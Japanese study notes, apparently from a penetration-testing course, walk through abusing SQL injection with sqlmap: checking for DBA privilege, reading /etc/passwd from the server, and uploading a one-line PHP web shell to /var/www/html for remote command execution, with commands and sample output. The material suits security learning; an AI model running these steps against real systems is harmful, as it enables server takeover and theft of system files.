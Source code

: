 ### ファイルの読み書き
- OS攻撃の第一歩は、ホスティングサーバ上のファイルの読み書き
- 一般的には読み込み（read）が中心で、書き込み（write）はDBMSの制限が厳しく、管理者権限が必要

**DBA権限を持っているかの確認**
- DBA権限とは、 「DataBase Administrator（データベース管理者）」のことだね

DBA権限の確認 : `--is-dba`
- 権限を持ってない時
```sh
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
...SNIP...
current user is DBA: False
```

- 権限を持ってる時
```shell-session
sqlmap -u "http://www.example.com/?id=1" --is-dba
...SNIP...
current user is DBA: True
```
この環境ならファイル読み込みのチャンスあり！

**ファイルの読み取り**
`--file-read`オプションでできる
DBA権限を持ってたら、ローカルにダウンロードしてくれる
```shell-session
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)
```

**ファイルの書き込み**
- ファイル書き込みは、Web Shellを設置してサーバを乗っ取るための典型的手段。
- そのため、モダンなDBMSではデフォルトで制限されている
- たとえばMySQLでは、以下の条件を満たさないと書き込み不可
	- --secure-file-priv が無効
	- ディレクトリに書き込み権限がある

書き込みの試み

まず、PHP製の簡単なWebシェルを用意
```shell-session
 echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

次に、それをリモートの /var/www/html/ にアップロード
- `--file-dest` で書き込み
- こんな感じで出力されたら書き込みできる
```shell-session
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```
